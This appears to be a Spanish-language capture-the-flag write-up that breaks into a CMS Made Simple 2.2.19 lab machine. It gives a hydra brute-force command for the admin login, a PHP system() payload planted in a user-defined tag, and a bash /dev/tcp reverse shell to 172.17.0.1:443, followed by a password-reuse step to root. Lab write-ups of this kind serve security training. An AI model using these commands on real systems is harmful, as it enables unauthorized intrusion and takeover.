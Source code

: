 Empezamos la maquina Dificil

![image](https://github.com/user-attachments/assets/71b619b0-2b37-412e-83a7-83b78f38fe80)

nmap: 22,80

---
entramos a la pagina principal y no hay mucho

![image](https://github.com/user-attachments/assets/e7c0645d-1ef4-4150-94ae-581a881de90a)

 nos vamos al código fuente y dice al final:
 
![image](https://github.com/user-attachments/assets/4e554fc6-666b-408a-8609-1b41c78ea9a7)

entramos:
> http://172.17.0.2/cmsms/
![[pagina principal 2.png]]
buscando y haciendo Fuerza bruta de directorios, no encontraba mucho, pero me entro la curiosidad por esto:
![[curiosidad 1.png]]
Esta en PHP así que probablemente tiene un "login.php" y al final di con esto
> http://172.17.0.2/cmsms/admin/login.php

![[login.php 1.png]]
que nos lleva al login

si capturo con burpsuite el login que ya tiene por defecto un usuario y contraseña que dicen que es incorrecto, da esto:
> username=admin&password=christelle&loginsubmit=Submit

![[captura burp.png]]
Que realmente no nos dice mucho. 

hacemos un ataque de fuerza bruta:

    - hydra -l admin -P /usr/share/wordlists/rockyou.txt  "http-post-form://172.17.0.2/cmsms/admin/login.php:username=^USER^&password=^PASS^&loginsubmit=Submit:User name or password incorrect"  

![[fuerza bruta.png]]

y nos da la contraseña "chocolate" para admin
probamos en el panel de login
![[panel admin.png]]
ya estamos dentro el panel, vemos una versión antigua entonces buscamos las vulnerabilidades conocidas para la versión 2.2.19 de CMS Made Simple. las cuales encontré con esta explicación 

> |[CVE-2024-27625](https://translate.google.com/website?sl=en&tl=es&hl=es&client=srp&u=https://www.cve.org/CVERecord?id%3DCVE-2024-27625)|La versión 2.2.19 de CMS Made Simple es vulnerable a ataques de secuencias de comandos entre sitios (XSS). Esta vulnerabilidad reside en el módulo Administrador de archivos del panel de administración. En concreto, el problema surge debido a una limpieza inadecuada de la entrada del usuario en el campo "Nuevo directorio".|
  [CVE-2024-27623](https://translate.google.com/website?sl=en&tl=es&hl=es&client=srp&u=https://www.cve.org/CVERecord?id%3DCVE-2024-27623)|La versión 2.2.19 de CMS Made Simple es vulnerable a la inyección de plantillas del lado del servidor (SSTI). La vulnerabilidad existe en el Administrador de diseño, en particular al editar las rutas de navegación.|

aquí la pagina de la explicación sobre la vulnerabilidad: https://cve-mitre-org.translate.goog/cgi-bin/cvekey.cgi?keyword=cms+made+simple&_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=es&_x_tr_pto=tc


nos vamos a: 
> extensiones > user defined tags > add defined tags > le colocamos un nombre y pruebo su vulnerabilidad 

![[prueba.png]]

en code colocamos:

    - <?php echo system('id'); ?>

veremos que queda guardado y entramos al "prueba" que creamos:

guardamos y colocamos "run" nos mostrara este mensaje:
![[prueba 2.png]]

probamos si la vulnerabilidad que encontramos esta funcionando:
![[prueba 3.png]]
nos dará: 

>uid=33(www-data) gid=33(www-data) groups=33(www-data) uid=33(www-data) gid=33(www-data) groups=33(www-data)

o sea que la vulnerabilidad esta funcionando

entonces modificamos ese código dentro del paréntesis y colocamos así la reverse shell con nuestro terminal en escucha:

     - <?php echo system('bash -c "bash -i >& /dev/tcp/172.17.0.1/443 0>&1"'); ?>

![[reverse .png]]

entonces la lanzamos con el terminal en escucha y entramos.
![[conexion .png]]
dentro no encontré nada y probé con la misma contraseña de admin del panel por curiosidad con el usuario  admin
ingresamos la contraseña "chocolate" al su root
![[final.png]]
y somos root! 


